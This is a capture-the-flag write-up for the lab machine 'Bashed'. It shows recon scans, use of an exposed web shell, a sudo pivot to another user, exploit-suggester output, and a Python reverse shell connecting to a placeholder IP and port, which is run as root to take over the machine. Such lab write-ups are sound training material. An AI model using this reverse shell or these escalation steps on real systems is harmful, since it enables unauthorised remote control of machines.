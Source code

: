 # Bashed 
Name: Bashed
Date: 03/05/2022
Difficulty: Easy
Description: N/a
Better Description: Vi the final boss 
Goals: TJ Null OSCP number One
Learnt: Sometimes metasploit multi/handler is not the answer. 

## Recon

```bash
ping 10.129.107.29                  
PING 10.129.107.29 (10.129.107.29) 56(84) bytes of data.
64 bytes from 10.129.107.29: icmp_seq=1 TTL=63 time=42.1 ms
64 bytes from 10.129.107.29: icmp_seq=2 TTL=63 time=37.5 ms
64 bytes from 10.129.107.29: icmp_seq=3 TTL=63 time=40.9 ms
^C
--- 10.129.107.29 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 37.517/40.139/42.051/1.917 ms

nmap -F 10.129.107.29               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 16:44 BST
Nmap scan report for 10.129.107.29
Host is up (0.046s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds

nmap -sC -sV -T 4 -p- 10.129.107.29 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 16:45 BST
Nmap scan report for 10.129.107.29
Host is up (0.051s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.29 seconds
```

Nikto

```bash
nikto -h 10.129.107.29
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.107.29
+ Target Hostname:    10.129.107.29
+ Target Port:        80
+ Start Time:         2022-05-03 16:47:01 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7916 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2022-05-03 16:55:02 (GMT1) (481 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                    
```

While nikto was still scanning I went to /dev/ tried the shell.
![one](Screenshots/dev-phpbash-disc.png)

We can get user.txt from /home/arrexel, I then transfered a shell to make stdout easier.
Then got LinEnum:

```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So we can just:

```bash
sudo -u scriptmanager /bin/bash
```

Now we are the scriptmanager user. Reran LinEnum and saw nothing exciting. Then linux-exploit-suggester.sh.
```bash
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

But then I found there is no gcc, cc, clang so this a clear dead-end.

I ran linuxprivchecker.sh a notice  popularity contest.
A Debian's popularity-contest, on a Ubuntu box..
It does these things:

```perl
-u <url>  submit to the given URL (default popcon.debian.org)
```
It did not seem to work. Ran some more scripts
`drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts`

![bingo](Screenshots/bingo.png)


```python
import socket, subprocesss,os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("IP", PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh", "-i"])
```

This will give you root.

![root](Screenshots/root.png)
